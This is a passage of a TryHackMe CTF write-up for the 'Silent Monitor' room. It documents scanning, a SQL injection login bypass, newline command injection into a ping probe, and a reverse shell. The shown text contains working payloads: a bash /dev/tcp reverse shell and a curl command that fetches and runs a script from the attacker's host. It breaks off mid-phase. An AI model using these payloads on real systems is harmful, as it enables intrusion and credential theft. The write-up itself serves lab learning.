








# Security Investigation: Silent Monitor

## Table of Contents

- [1. Investigation Overview](#1-investigation-overview)
- [2. Current Investigation Status](#2-current-investigation-status)
- [3. Scope and Environment](#3-scope-and-environment)
- [4. Investigation Log](#4-investigation-log)
  - [Phase 1: Reconnaissance and Scanning](#phase-1-reconnaissance-and-scanning)
  - [Phase 2: Vulnerability Analysis — Authentication Bypass](#phase-2-vulnerability-analysis--authentication-bypass)
  - [Phase 3: Vulnerability Analysis — Command Injection](#phase-3-vulnerability-analysis--command-injection)
  - [Phase 4: Exploitation — Reverse Shell](#phase-4-exploitation--reverse-shell)
  - [Phase 5: Post-Exploitation — Lateral Movement to `sysadmin`](#phase-5-post-exploitation--lateral-movement-to-sysadmin)
  - [Phase 6: Post-Exploitation Enumeration — `sysadmin` Home and Credential Backup](#phase-6-post-exploitation-enumeration--sysadmin-home-and-credential-backup)
  - [Phase 7: Privilege Escalation — KeePass Cracking and Root Pivot](#phase-7-privilege-escalation--keepass-cracking-and-root-pivot)
- [5. Vulnerability Candidates](#5-vulnerability-candidates)
- [6. Confirmed Vulnerabilities](#6-confirmed-vulnerabilities)
- [7. Rabbit Holes and Disproven Hypotheses](#7-rabbit-holes-and-disproven-hypotheses)
- [8. Evidence and Artifacts](#8-evidence-and-artifacts)
- [9. Technical Knowledge and Lessons Learned](#9-technical-knowledge-and-lessons-learned)
- [10. Final Investigation Summary](#10-final-investigation-summary)
- [11. Writeup Handoff](#11-writeup-handoff)

## 1. Investigation Overview

- Target / Challenge: Silent Monitor ("Green Lights, Dark Corners") — CorpNet NOC portal
- Platform / Program: TryHackMe
- Investigation Type: CTF
- Scope: `10.49.170.107` (target), via THM VPN/AttackBox from `10.49.107.57`
- Restrictions: Authorized THM lab target only; no destructive testing
- Start Date: 2026-11-03
- Status: Complete
- Primary Objective: Obtain `user.txt` and `root.txt` — **both obtained**

## 2. Current Investigation Status

### Summary

Reconnaissance and scanning identified a Flask app on port 5050 and SSH on 22. A hidden `/internal` login page was found via content discovery. SQL injection in the login query gave an authentication bypass as operator `netops`. The post-auth "Host Health" probe feature was confirmed vulnerable to OS command injection (newline injection into a `ping` command), giving execution as `www-data`. A reverse shell was obtained by hosting a short fetch-and-execute payload externally to stay under the endpoint's input-length filter. A leaked credential (`sysadmin` / see `secret.config` in evidence) was found in the app's source and confirmed valid, giving a lateral-movement foothold as `sysadmin` via SSH, where `user.txt` was captured. A KeePass database (`infrastructure.kdbx`) found in `sysadmin`'s `backups/` directory was cracked offline (`pykeepass` + a `rockyou`-derived wordlist, after standard `john`/`hashcat` tooling proved incomplete on the attacker image) and contained the real `root` account password, which was used to escalate directly via `su root` and capture `root.txt`. **Room complete.**

### Confirmed Findings

- SQL injection in the `/internal` login query → authentication bypass (operator role).
- Audit log reflects raw, unsanitized login input (stored XSS-adjacent logging issue, not yet exploited further).
- OS command injection in the `/internal/health` "Host Health" probe via newline injection into a `ping` command, executing as `www-data`.
- Input filter on the health probe blocks `|`, `&`, `` ` ``, `$`, `;` (regex in `app.py`, see evidence) and caps total input length at 100 characters; redirection (`>`, `>>`) and `+` are not filtered.
- Leaked `secret.config` credential (`sysadmin`) is valid for OS login — confirmed via SSH, giving a foothold as `sysadmin` (uid 1001, real `/bin/bash` account).
- `user.txt` located and read at `/home/sysadmin/user.txt` (content redacted in this document per project policy).
- `infrastructure.kdbx` (KeePass database) found in `/home/sysadmin/backups/`, master password recovered via offline brute force (`pykeepass` + top-1M `rockyou` wordlist); contained the real `root` OS account password.
- Privilege escalation to `root` confirmed via `su root` with the credential recovered from `infrastructure.kdbx`. `root.txt` captured (content redacted per project policy).

### Active Hypotheses

None — investigation objective achieved; no open hypotheses remain.

### Open Questions

None outstanding for the room's core objective. `sudo -l` and `/etc/netops/env` were checked and came back empty/denied respectively — not the intended path, no further action needed there.

### Next Steps

Investigation objective complete. Remaining housekeeping: save `infrastructure.kdbx` and the cracking scripts to `evidence/`, then proceed to final review and `/ctf-writeup`. 4. Continue privilege-escalation enumeration (SUID binaries, cron jobs, writable paths) toward `root.txt` in parallel.

## 3. Scope and Environment

### Authorized Targets

- Target machine: `10.49.170.107`

### Restrictions

- Authorized TryHackMe lab target, accessed via THM VPN/AttackBox only.
- No destructive testing.

### Environment

- Attacker machine: `10.49.107.57`

### Initial Information

Room brief frames the target as a NOC monitoring portal with a web dashboard, an "audit log," and a hinted "secret dashboard."

## 4. Investigation Log

### Phase 1: Reconnaissance and Scanning

#### Objective

Identify exposed services and initial attack surface.

#### Observations

Full TCP sweep showed only two open ports: 22 (SSH, OpenSSH 8.9p1 Ubuntu) and 5050 (HTTP, Werkzeug 2.0.2 / Python 3.10.12 — a Flask app). Page title: "CorpNet — Network Operations Centre".

#### Actions and Experiments

Full TCP port sweep (all 65535 ports):

```bash
nmap -p- --min-rate 2000 -T4 -oN allports.txt 10.49.170.107
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2026-11-03 13:37 UTC
Nmap scan report for ip-10-48-161-183.ap-south-1.compute.internal (10.49.170.107)
Host is up (0.0066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5050/tcp open  mmcc

Nmap done: 1 IP address (1 host up) scanned in 3.45 seconds
```

Service/version scan against the two open ports:

```bash
nmap -sC -sV -p 22,5050 -oN services.txt 10.49.170.107
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2026-11-03 13:39 UTC
Nmap scan report for ip-10-48-161-183.ap-south-1.compute.internal (10.49.170.107)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0e91254f833581854c427cea67b29071 (ECDSA)
|_  256 4a8556b31abbb5285cde98309e0a747c (ED25519)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-server-header: Werkzeug/2.0.2 Python/3.10.12
|_http-title: CorpNet \xE2\x80\x94 Network Operations Centre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds
```

Manual browse of `http://10.49.170.107:5050` and source review of the static landing page (`curl -i`, saved as `sources/main-page.html`) — no `<a href>`, no `<form>`, no `<script src>`. Content discovery against port 5050:

```bash
gobuster dir -u http://10.49.170.107:5050 -w /usr/share/wordlists/dirb/common.txt -x php,html -t 40 -o gobuster.txt
```

```
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.170.107:5050
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2026/11/03 13:52:11 Starting gobuster in directory enumeration mode
===============================================================
/internal             (Status: 200) [Size: 8770]
Progress: 13718 / 13845 (99.08%)===============================================================
2026/11/03 13:52:39 Finished
===============================================================
```

```bash
curl -i http://10.49.170.107:5050/internal
```

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 8770
Server: Werkzeug/2.0.2 Python/3.10.12
Date: Tue, 03 Nov 2026 13:55:53 GMT
```

(Full HTML body is the "CorpNet NOC — Sign In" page — see Phase 2 and `sources/login.html`.)

#### Results

- The landing page has no links to other routes (no `<a href>`, no `<form>`, no `<script src>`), meaning other endpoints could only be found via content discovery, not by following links.
- `gobuster` found `/internal` → a login page ("CorpNet NOC — Sign In"), confirmed by the `curl -i` request above.

#### Analysis

The app deliberately hides its functional routes behind unlinked paths, consistent with the room's "hiding things in places no one thinks to look" framing. SSH was noted but not pursued without evidence of a specific vulnerability or credential.

#### Failed Attempts / Dead Ends

Considered pivoting on "anonymous SSH login" based solely on port 22 being open. Rejected: no evidence (no leaked credential, no banner anomaly) supported it, and SSH has no true anonymous-auth mode by default.

#### Findings

Hidden login endpoint at `/internal`.

#### Evidence

- E-001: Port scan, content discovery, and `/internal` source — captured inline above (this phase).



#### Remaining Questions

What authentication mechanism backs `/internal`, and is it vulnerable?

#### Next Steps

Review the login form and test for injection.

### Phase 2: Vulnerability Analysis — Authentication Bypass

#### Objective

Assess the `/internal` login form for exploitable weaknesses.

#### Observations

Source review of `login.html` (evidence) showed a plain POST form (`username`, `password`), no CSRF token, no client-side validation.

#### Hypotheses

Ranked by cost to validate:

1. weak/guessable credentials — deprioritized, no evidence
2. SQL injection in the login query — cheap, non-destructive to test
3. Brute-forceable with no rate limiting — expensive, not pursued first.

#### Actions and Experiments

Baseline bad login:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=test&password=test"
```

Result: `Invalid username or password.` — generic error, no enumeration via message wording.

Single-quote probe:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=test'&password=test"
```

Result: identical generic error (same status/body) — ruled out an unhandled/leaking SQL error, but did not rule out a caught/masked one.

Boolean injection payload:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=admin' OR '1'='1'-- -&password=x"
```

#### Results

The boolean injection succeeded: redirected into the dashboard, logged in as operator `netops`.

#### Analysis

Confirmed finding: SQL injection in the login query (direct string interpolation, confirmed later from `app.py` source), allowing authentication bypass.

#### Failed Attempts / Dead Ends

The single-quote probe (`username=test'&password=test`) returned the same generic error as the plain bad login — ruled out an unhandled/leaking SQL error, but did not by itself rule out SQL injection; the boolean payload above is what confirmed it.

#### Findings

Confirmed: SQL injection / authentication bypass on `/internal`.

#### Evidence

Login-bypass requests and results captured inline above (this phase).



_(Not referenced in the raw session notes directly, but captured during this phase; included here as the evidence it is.)_

#### Remaining Questions

None for this phase.

#### Next Steps

Enumerate the authenticated dashboard's attack surface.

### Phase 3: Vulnerability Analysis — Command Injection

#### Objective

Assess the post-authentication "Host Health" probe feature.

#### Observations

Dashboard (`netops`, role OPERATOR) exposes Overview, Host Health, Audit Log, Services. The audit log reflects the raw login `username` field unsanitized (prior failed SQLi/command-injection attempts by other operators are visible verbatim).



`/internal/health` is an "ICMP reachability probe": free-text target + Run Probe, claiming to accept RFC-952 hostnames and IPv4 addresses.



A baseline probe (`127.0.0.1`) returned real `ping` output, and the UI's own output format disclosed the backend command template: `ping -c 2 -W 1 <input>`.

```
$ ping -c 2 -W 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.034 ms
--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1018ms
rtt min/avg/max/mdev = 0.028/0.031/0.034/0.003 ms
```



A `whoami`-alone test (field value `whoami`, no newline) returned `ping: whoami: Temporary failure in name resolution` — confirmed raw pass-through of the field's content as a second hostname argument, not yet command execution:



#### Hypotheses

The field passes its value directly into a shell-executed `ping` command without separating it from a second, attacker-supplied command.

#### Actions and Experiments

1. Literal backslash-`n` (`\n` as two characters) typed into the field:

   ```
   ping -c 2 -W 1 127.0.0.1 \n whoami
   ping: whoami: Temporary failure in name resolution
   ```

   Confirmed this was literal text, not a real newline byte — a single-line HTML `<input>` cannot carry a raw newline from the keyboard.

2. Literal `%0a` text typed into the field:

   ```
   ping -c 2 -W 1 127.0.0.1%0awhoami
   ping: 127.0.0.1%0awhoami: Name or service not known
   ```

   The whole string `%0a` was passed through literally, un-decoded (the browser double-encodes the `%` on submit). This also means the earlier audit-log entries showing this same pattern were most likely a previous operator's failed attempts, not confirmed prior exploitation.

3. Real newline byte, sent via `curl` (controlling raw bytes directly, bypassing the browser input's limitation):

   ```bash
   curl -s http://10.49.170.107:5050/internal/health \
     --data-urlencode $'target=127.0.0.1\nwhoami' \
     -b "session=<netops session cookie>"
   ```

   Result:

   ```
   PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
   64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
   64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.040 ms
   --- 127.0.0.1 ping statistics ---
   2 packets transmitted, 2 received, 0% packet loss, time 1037ms
   rtt min/avg/max/mdev = 0.026/0.033/0.040/0.007 ms
   www-data
   ```

#### Results

Step 3 returned the `ping` output followed by `www-data` — confirmed OS command injection, executing as `www-data`.

#### Analysis

The two false leads (steps 1 and 2) were valuable: they ruled out "newline via the browser UI" specifically, and reframed an earlier assumption (that audit-log entries showing an injection-like pattern proved prior exploitation) as unconfirmed. Only a raw HTTP request could deliver an actual newline byte.

#### Failed Attempts / Dead Ends

- Literal `\n` text — no effect, confirmed non-execution.
- Literal `%0a` text — passed through literally, un-decoded; no execution.

#### Findings

Confirmed: OS command injection on `/internal/health`, executing as `www-data`.

#### Evidence

`host-health.png`, `run-probe-127.png`, and `run-probe-whoami.png` are embedded above.

#### Remaining Questions

What characters/length does the backend filter, and can a usable shell be obtained within those limits?

#### Next Steps

Characterize the filter and attempt to escalate to an interactive shell.

### Phase 4: Exploitation — Reverse Shell

#### Objective

Obtain an interactive shell as `www-data` through the confirmed command injection.

#### Observations

Set up [Penelope](https://github.com/brightio/penelope) (as in the [Domino](../Domino/domino-writeup.md) room) instead of raw `netcat`, for automatic PTY upgrade:

```bash
penelope -p 4444          # listener
penelope -p 4444 -a       # prints ready-made payloads for the active listener
```

First attempt — full Python3 reverse shell payload (base64, piped through `base64 -d|sh`) — failed:

```
Invalid hostname or IP address.
```

#### Actions and Experiments

Isolated the input filter one variable at a time (controlled tests, not guesses):

| Test                             | Input                                                        | Result                                                                     |
| -------------------------------- | ------------------------------------------------------------ | -------------------------------------------------------------------------- |
| Space + hyphen                   | `127.0.0.1\nid -u`                                           | passed                                                                     |
| Pipe character                   | `127.0.0.1\necho a\|echo b`                                  | **blocked**                                                                |
| `>` redirection                  | `127.0.0.1\nid > /tmp/t`, then `cat /tmp/t`                  | passed — read back `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `=` (base64 padding)             | `127.0.0.1\necho aGVsbG8= > /tmp/h`, then `cat /tmp/h`       | passed                                                                     |
| `&` character                    | `127.0.0.1\necho hi & echo bye`                              | **blocked**                                                                |
| Multi-line (4 lines), safe chars | `127.0.0.1\necho l1 > /tmp/m\necho l2 >> /tmp/m\ncat /tmp/m` | passed — ruled out a short line-count limit                                |
| `+` character                    | `127.0.0.1\necho a+b > /tmp/q`, then `cat /tmp/q`            | passed                                                                     |

Also attempted a bash `/dev/tcp` reverse shell (`bash -i >& /dev/tcp/<ip>/4444 0>&1`) — failed, consistent with `&` being blocked (this technique structurally requires `&` for fd duplication, so no rephrasing fixes it).

Pulled source code and config to understand the filter precisely, via the same injection:

```bash
cat app.py
cat secret.config
ls -la
```

```
total 44
drwxrwx--- 3 root     www-data  4096 Nov  3 13:18 .
drwxr-xr-x 3 root     root      4096 May 19 03:10 ..
-rw-r--r-- 1 root     root      7283 May 19 19:14 app.py
-rw-rw---- 1 www-data www-data 20480 Nov  3 13:18 netops.db
-rw-r----- 1 root     www-data   446 May 19 03:10 secret.config
drwxr-x--- 2 root     www-data  4096 May 19 03:10 templates
```

Both files saved to `evidence/sources/`.

#### Results

`app.py` confirmed: `PING_BLOCK_RE = re.compile(r"[;|\`$&]")` (blocks `;`, `|`, `` ` ``, `$`, `&`) and a 100-character total input-length cap (`elif len(target) > 100: cmd_err = "Invalid hostname or IP address."`). The original full-payload failure was caused by the length cap, not its characters. `app.py`also confirmed the login SQLi directly:`query = "...WHERE username = '%s' AND password = '%s'" % (username, pw_hash)`.

`secret.config` leaked a credential: `[backup_agent] run_as = sysadmin, password = <see secret.config in evidence>` — untested at time of writing, candidate for an OS-level pivot. `ls -la` also surfaced `netops.db` (SQLite, likely the operator credentials table) and a `templates/` directory.

Final working technique — host the payload externally, inject only a short fetch-and-execute command (stays under the 100-char cap and never exposes the filtered `&`/`|` characters to the app's filter, since they live inside the fetched file, not the injected field):

```bash
# attacker machine
echo 'bash -i >& /dev/tcp/10.49.107.57/4444 0>&1' > shell.sh
python3 -m http.server 8000
```

```bash
curl -s http://10.49.170.107:5050/internal/health \
  --data-urlencode $'target=127.0.0.1\ncurl 10.49.107.57:8000/shell.sh -o /tmp/s\nbash /tmp/s' \
  -b "session=<netops session cookie>"
```

This connected a reverse shell on the attacker's Penelope listener (port 4444).

#### Analysis

The injection is real but tightly constrained (character blacklist + length cap). The fix was separating "what's typed into the field" (short, filter-safe) from "what actually runs" (the fetched script, unconstrained).

#### Failed Attempts / Dead Ends

- Full base64 Python3 reverse-shell one-liner — blocked by the length cap, initially misdiagnosed as a character-filtering issue.
